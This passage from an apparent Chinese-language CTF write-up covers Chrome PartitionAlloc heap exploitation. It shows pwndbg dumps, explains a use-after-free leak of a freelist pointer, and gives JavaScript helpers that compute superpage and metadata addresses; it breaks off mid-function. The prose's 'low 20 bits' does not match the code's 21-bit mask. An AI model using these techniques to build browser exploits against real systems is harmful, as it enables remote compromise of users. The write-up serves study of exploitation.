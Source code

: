 ```
pwndbg> x/30gx 0x068c0830d7d4
0x68c0830d7d4:	0x080406e908200dc9	0x00000000080406e9
0x68c0830d7e4:	0x0000000000000000	0x0000000100000000
0x68c0830d7f4:	0x0000000600000000	0x0000000000000000
0x68c0830d804:	0x0000000000000000	0x0000001008040489
0x68c0830d814:	0x0000000000000000	0x080406e908200dc9
0x68c0830d824:	0x00000008080406e9	0x9cc0400000000000
0x68c0830d834:	0x0da90c0000003295	0x00000002000019d2
0x68c0830d844:	0x0000000000000000	0x0000000000000000
0x68c0830d854:	0x00000008080404d9	0x0825e445081021f5
0x68c0830d864:	0xfffffffe00000000	0x00000008080404d9

backing store:

pwndbg> x/30gx 0x000032959cc04010
0x32959cc04010:	0x2040c09c95320000	0x0000000000000000
0x32959cc04020:	0x3040c09c95320000	0x0000000000000000
0x32959cc04030:	0x4040c09c95320000	0x0000000000000000
0x32959cc04040:	0x5040c09c95320000	0x0000000000000000
```

接下来就是将leaks的data覆盖为uaf，这样就泄漏出了freelist指针，在阅读wp的过程中，发现这个泄漏指针包含了很多重要信息：
- 由于我们的freed块都位于Slot span（忘记的可以看上面的superpage 布局）， 所以我们只要将末五位（低20位）置0就可以得到superpage的基地址。

- PartitionPage大小是0x4000，我们取出泄漏指针的末四位 >> 14就可以得到PartitionPageIndex
- 当前PartitionPage地址就是Index*0x4000 + superpage的基地址
- MetadataArea的基地址就是 superpage的基地址 + 0x1000
- 当前的MetadataArea地址就是 MetadataArea的基地址 + PartitionPageIndex * 0x20

代码实现：

```
function getSuperPageBase(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr & superPageBaseMask;
    return superPageBase;
}
 
function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex << BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
}
 
function getPartitionPageIndex(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    return partitionPageIndex;
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
```